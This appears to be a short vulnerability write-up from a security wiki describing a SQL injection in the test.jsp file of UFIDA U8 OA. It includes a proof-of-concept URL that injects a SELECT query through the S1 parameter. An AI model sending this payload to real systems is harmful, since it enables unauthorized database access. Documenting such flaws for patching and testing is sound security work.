 # UFIDA U8 OA test.jsp SQL injection vulnerability

## Vulnerability Description

The UFIDA U8 OA test.jsp file has a SQL injection vulnerability. Since it uses the same file as Zhiyuan OA, the same vulnerability exists.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA U8 OA</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-11.png)

Verify POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-12.png)